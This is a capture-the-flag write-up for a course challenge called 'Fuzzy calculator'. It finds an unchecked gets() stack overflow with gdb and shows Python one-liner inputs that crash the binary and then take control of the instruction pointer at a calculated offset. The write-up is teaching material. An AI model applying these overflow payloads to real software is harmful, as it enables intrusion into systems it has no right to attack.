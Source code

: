 ### Fuzzy calculator
>Our startup has developed an advanced calculator app for 64-bit Linuxes. Unfortunately, the app has a serious memory safety problem. What is more, our competitors have a similar products without these kind of problems. We have act quickly before the market reacts and gets too much stacked against us. Can you trace down the exact point where the problem occurs? http://sec-mooc-1.cs.helsinki.fi/clock/a2f79db3-c910-482e-baa2-b4da7b3caa99/clock (Note that the address should include all leading zeroes and the hexadecimal prefix e.g. 0x0000000000000001)

The title of the challenge suggests fuzzing but after messing around with it a few times and seeing it wasn't very complicated I decided to look at it in gdb.
```
root@kali:~/temp/fuzzy# gdb ./clock
...
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400256 <+0>:	push   rbp
   0x0000000000400257 <+1>:	mov    rbp,rsp
   0x000000000040025a <+4>:	sub    rsp,0x138b0
   0x0000000000400261 <+11>:	mov    DWORD PTR [rbp-0x138a4],edi
   0x0000000000400267 <+17>:	mov    QWORD PTR [rbp-0x138b0],rsi
   0x000000000040026e <+24>:	mov    edi,0x407660
   0x0000000000400273 <+29>:	call   0x4006d9 <puts>
   0x0000000000400278 <+34>:	mov    edi,0x407688
   0x000000000040027d <+39>:	call   0x4006d9 <puts>
   0x0000000000400282 <+44>:	lea    rax,[rbp-0x138a0]
   0x0000000000400289 <+51>:	mov    rdi,rax
   0x000000000040028c <+54>:	mov    eax,0x0
   0x0000000000400291 <+59>:	call   0x4005f6 <gets>
... 
```
What immediately jumped out to me was the `gets` call. `gets` reads a line from stdin and saves it to a buffer but doesn't check if the buffer is big enough. This causes a buffer overflow if the string is too long.

Funnily enough first I was so excited seeing `gets` within like a minute of downloading the challenge that I didn't look at how big the buffer actually was. The command `sub    rsp,0x138b0` sets up the stack for the buffer by substracting `0x138b0`  (`80048` in decimal) from the stack pointer. 

So after a few attempts to make it crash without success I went back to see just how big the buffer was and only then realised to craft a long enough input.
```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' | ./clock
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
Segmentation fault
```
There's a crash and now for the flag we need to get a memory address. We can use GDB for this but because the calculator takes input from stdin we first need to write our input to a file and then redirect the file as input inside GDB:

```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)

Program received signal SIGSEGV, Segmentation fault.
0x0000000000403670 in memcpy ()
```
And we get our flag, `0x0000000000403670`. 


#### Commentary:

I got lucky in that in my manual testing I put in a long enough input for the program to crash at memcpy to actually get the flag. Many people in the IRC/Matrix channel had problems because they got the program to crash but at a different point.

If your input is shorter than ~83500 characters but longer than 80040 you won't overflow enough and start getting a different crash. The crash will happen at the very end of the program where it's about to return from main.

Let's give an input of `"1" * 81000`:

```
root@kali:~/temp/fuzzy# python -c 'print "1"*81000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x000000000040041c in main ()
(gdb) x/i 0x000000000040041c
=> 0x40041c <main+454>:	retq
(gdb) x/xg $rsp
0x7fffffffe258:	0x3131313131313131
```

So we are crashing at the very end of the program when main is about to return. The reason why we are crashing here is that `ret` is popping a value from stack (at RSP, the stack pointer) and is trying to put it as instruction pointer (RIP). But in x86-64 the maximum address size is `0x00007FFFFFFFFFFF` so `0x3131313131313131` is not a valid address. The address is not allowed so we crash at the `ret` instruction.

Now if we craft our overflow to have a valid address for RIP we actually take control of it:
```
root@kali:~/temp/fuzzy# python -c 'print "1"*80040 + "2" * 6 '> ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x0000323232323232 in ?? ()
```
0x32 = "2" and because of endianness "222222" ends up being "0x0000323232323232".

Note that the above only applies to x86-64 and with 32 bit binaries things are a bit (heh) different.


